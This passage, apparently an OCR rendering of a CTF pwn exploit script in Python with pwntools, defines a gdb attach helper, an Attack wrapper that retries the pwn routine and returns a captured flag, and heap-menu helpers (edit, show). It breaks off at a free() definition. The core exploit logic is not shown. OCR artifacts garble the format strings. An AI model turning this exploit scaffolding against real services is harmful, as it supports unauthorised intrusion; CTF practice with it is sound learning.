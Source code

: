 ```
def get_gdb(sh, gdbscript=None, addr=0, stop=False):
    if args['REMOTE']:
        return
    if gdbscript is not None:
        gdb.attach(sh, gdbscript=gdbscript)
    elif addr is not None:
        text_base = int(os.popen("pmap `{``}`| awk '`{``{`print $1`}``}`'".format(sh.pid)).readlines()[1], 16)
        log.success("breakpoint_addr --&gt; " + hex(text_base + addr))
        gdb.attach(sh, 'b *`{``}`'.format(hex(text_base + addr)))
    else:
        gdb.attach(sh)
    if stop:
        raw_input()


def Attack(target=None, sh=None, elf=None, libc=None):
    if sh is None:
        from Class.Target import Target
        assert target is not None
        assert isinstance(target, Target)
        sh = target.sh
        elf = target.elf
        libc = target.libc
    assert isinstance(elf, ELF)
    assert isinstance(libc, ELF)
    try_count = 0
    while try_count &lt; 3:
        try_count += 1
        try:
            pwn(sh, elf, libc)
            break
        except KeyboardInterrupt:
            break
        except EOFError:
            if target is not None:
                sh = target.get_sh()
                target.sh = sh
                if target.connect_fail:
                    return 'ERROR : Can not connect to target server!'
            else:
                sh = get_sh()
    flag = get_flag(sh)
    return flag


def ToString(data):
    ans = 0
    for i in data[::-1]:
        ans = (ans * 2) + (ord(i) - ord('0'))
    print hex(ans)
    print long_to_bytes(ans)


def edit(idx, content):
    sh.sendlineafter("&gt;&gt;", "edit(`{`0`}`);".format(idx))
    sh.sendafter("00101110011101101010011000101110011101101111011011000110", content)

def show(idx):
    sh.sendlineafter("&gt;&gt;", "show(`{`0`}`);".format(idx))


def free(idx):
```